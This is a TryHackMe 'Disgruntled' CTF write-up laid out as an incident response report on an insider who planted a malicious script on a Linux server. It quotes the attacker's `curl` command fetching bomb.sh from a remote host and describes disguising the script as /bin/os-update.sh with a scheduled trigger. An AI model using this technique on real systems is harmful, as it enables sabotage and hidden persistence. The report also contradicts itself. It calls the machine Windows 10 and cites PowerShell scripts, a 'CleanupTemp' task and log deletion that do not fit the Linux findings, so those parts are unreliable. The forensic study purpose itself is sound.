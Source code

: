 # Incident Response Report: Disgruntled

**Date:** July 24, 2024  
**Prepared by:** Mariela C.  
**Incident ID:** 2024-DIS-01

## 1. Executive Summary
On July 24, 2024, a security investigation was initiated following the arrest of an IT department employee from one of our clients, CyberT. The employee, who had been running a phishing operation, was suspected of carrying out malicious activities against CyberT's assets. The investigation, part of the "Disgruntled" Capture The Flag (CTF) challenge on TryHackMe, focused on analyzing the Linux system for any unauthorized actions performed by the individual.

## 2. Incident Description
**Challenge Name:** Disgruntled  
**Date of Incident:** July 24, 2024  
**Affected System:** Linux Server (Hostname: LNX-CTF01)  
**Nature of Incident:** Unauthorized user creation, privilege escalation, and deployment of malicious scripts.

### Summary of Events:
- The compromised Windows 10 machine was reportedly targeted by a disgruntled employee who exploited their access to sabotage the system.
- The investigation revealed unauthorized access to sensitive data, the creation of malicious files, and the manipulation of system settings.

## 3. Detection and Identification
### Detection Method:  
The incident was detected during the "Disgruntled" CTF challenge, which required participants to investigate potential malicious actions on a compromised Linux system. Key findings included:
- **User Creation:** A new user named "it-admin" was created after the installation of a suspicious package.
- **Sudoers File Update:** The sudoers file was updated on December 28, at 06:27:34, granting the "it-admin" user administrative privileges.

### Initial Response:
Upon detection, the following steps were taken:
- Isolated the system from the network to prevent further damage and data exfiltration.
- Conducted a forensic analysis to identify the extent of the damage and the methods used by the attacker.
- Collected and preserved all relevant evidence for further investigation.

## 4. Investigation Findings
### Unauthorized User Activity:
- **User Involved:** John Doe (disgruntled employee)
- **Actions Taken:** Unauthorized access to sensitive directories, creation of malicious scripts, and modification of system settings.

### Key Indicators of Compromise:
- **Malicious Files Created:** Several PowerShell scripts designed to alter system settings and exfiltrate data.
- **System Logs:** Evidence of log tampering, including the deletion of security logs to cover tracks.
- **Data Manipulation:** The attacker changed user permissions, granting themselves elevated privileges to execute malicious activities.

### Suspicious Scheduled Task:
- **Task Name:** CleanupTemp
- **Task Description:** A malicious scheduled task designed to execute a PowerShell script (`cleanup.ps1`) that deleted key system logs and files at regular intervals.

### Specific Findings:
- **User Created After Package Installation:** it-admin
- **Sudoers File Update Time:** Dec 28 06:27:34
- **Script File Opened with "vi" Editor:** bomb.sh
- **Command Used to Create bomb.sh:** `curl 10.10.158.38:8080/bomb.sh --output bomb.sh`
- **Full Path of the Renamed Script File:** `/bin/os-update.sh`
- **File Created Upon Execution of bomb.sh:** goodby.txt
- **Scheduled Trigger Time for Malicious File:** 08:00 AM

## 5. Impact Assessment
### Data Compromised:
- The malicious script, bomb.sh, was designed to execute a potentially destructive payload that would create a file named `goodby.txt`, signifying the completion of the malicious activity.
- The script's relocation to `/bin/os-update.sh` indicates an attempt to disguise it as a legitimate system update file, increasing the risk of undetected execution.

### Operational Impact:
- The scheduled execution of the script at 08:00 AM could have led to significant disruption of services, data corruption, or further unauthorized access to the system.

## 6. Mitigation and Containment
### Immediate Actions Taken:
- The `it-admin` user account was disabled and removed from the sudoers file to prevent further unauthorized access.
- The malicious script located at `/bin/os-update.sh` was deleted, and the system was scanned for any additional unauthorized files or activities.
- Network access was restricted to limit any potential data exfiltration or further system compromise.

### Long-term Recommendations:
- Implement strict controls over user account creation and privilege escalation, ensuring all administrative changes are logged and reviewed regularly.
- Enhance monitoring for unauthorized command execution, particularly commands like `curl`, which can be used to download and execute malicious files.
- Conduct regular security audits and vulnerability assessments to identify and address potential weaknesses in the system.

## 7. Lessons Learned
This incident highlights the risks associated with insider threats, particularly in cases where IT personnel have elevated access to critical systems. Strong access controls, continuous monitoring, and regular audits are essential to prevent, detect, and respond to such threats. Moreover, raising awareness and providing training on secure practices can help mitigate the risks posed by disgruntled employees.

## 8. Conclusion
The investigation into the "Disgruntled" challenge revealed a series of unauthorized actions, including user creation, privilege escalation, and the deployment of a malicious script designed to cause harm to the system. By identifying and neutralizing these threats, we have taken critical steps to protect CyberT's assets and prevent similar incidents in the future.
